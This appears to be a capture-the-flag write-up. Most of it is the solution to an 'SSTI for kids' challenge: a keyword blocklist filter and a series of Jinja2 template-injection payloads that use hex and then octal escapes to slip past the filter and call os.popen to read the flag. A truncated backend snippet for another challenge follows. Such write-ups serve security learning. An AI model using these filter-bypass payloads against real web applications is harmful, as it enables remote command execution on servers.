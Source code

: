 ![image](https://hackmd.io/_uploads/r10KJAmU1x.png)
- Hmmm it seems not get the ArrayHelpers instance because this class comes from another file. Just fix a little bit with : 
 ![image](https://hackmd.io/_uploads/BkQp1RX8ke.png)
 Run again and get the flag !!!!
 ![image](https://hackmd.io/_uploads/rkvR1CmUJl.png)

# SSTI FOR KIDS : 
```python
def check_payload(payload):
    forbidden_chars = ["[", "]", "_", ".", "x", "dict", "config", "mro", "popen", "debug", "cycler", "os", "globals", "flag", "cat"]
    # [] , 
    payload = payload.lower()
    for char in forbidden_chars:
        if char in payload:
            print(f"CAUGHT {char}")
            return True
    return False
```
This challenge need us to bypass SSTI checker.
After reading this [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- I found a powerful payload : 
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
But it stills get caught with `x` letter so just convert all of them into octal form :>>
```python
{{request|attr('application')|attr('\137\137globals\137\137')|attr('\137\137getitem\137\137')('\137\137builtins\137\137')|attr('\137\137getitem\137\137')('\137\137import\137\137')('os')|attr('popen')('id')|attr('read')()}}
```
Then change some blackwords too:
Final : 
```python
{{request|attr('\141pplic\141ti\157n')|attr('\137\137glob\141ls\137\137')|attr('\137\137getitem\137\137')('\137\137builtins\137\137')|attr('\137\137getitem\137\137')('\137\137imp\157rt\137\137')('\157s')|attr('p\157pen')('c\141t fl\141g*')|attr('re\141d')()}}
```
Ten ten ten: ![image](https://hackmd.io/_uploads/BkUCfAQL1e.png)


# Nemo
Logic and read memories 

# Source  Back End: 
```python
class FileMetadata:
    def __init__(
            self,
            author,
            filename,
            description,
            id = None,
    ):
        if len(author) > 50 or \
           len(filename) > 50 or \
           len(description) > 150:
```